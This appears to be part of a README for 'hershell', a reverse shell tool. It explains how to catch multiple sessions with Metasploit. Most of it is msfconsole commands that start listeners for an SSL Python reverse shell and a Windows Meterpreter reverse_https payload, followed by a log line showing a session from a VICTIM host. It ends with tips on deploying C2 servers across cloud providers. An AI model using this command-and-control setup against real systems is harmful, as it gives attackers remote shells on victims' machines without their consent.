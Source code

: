 
### Multi hershell session handling from Metasploit

Catching sessions with `ncat` is nice and easy, but it does not handle *multi sessions*. We can use the Metasploit `python/shell_reverse_tcp_ssl` payload.  

Use `sessions` to interact with your targets from inside the `msfconsole`  prompt.

Let's set Metasploit up to receive both our stages in a single shot. Starting from the top:

```bash
msf5 > wget http://DOCKER-IP:8000/server.key
msf5 > use exploit/multi/handler
msf5 > set payload python/shell_reverse_tcp_ssl
msf5 > set HandlerSSLCert ./server.pem
msf5 > set lhost DOCKER-IP
msf5 > set lport 8088
msf5 > exploit -j
# Our first hershell listener is now running as a job in the background

msf5 > set payload windows/x64/meterpreter/reverse_https
msf5 > set lport 8443
msf5 > exploit -j
msf5 > sessions -l
```

Launch hershell as you would and...

```
[*] Command shell session 1 opened (DOCKER-IP:8088 -> VICTIM:39370) at 2018-10-04 02:26:32 +0000
```


## More tricks

### Using docker-machine

You can use [docker-machine](https://docs.docker.com/machine/) to seamlessly deploy your C2 instances across different cloud providers.

### Make a rc file

Once you have a working configuration in your Metasploit environment, you use the `makerc hershell.rc` to generate a config file. From there you can `cat` it from the prompt or push it elsewhere.


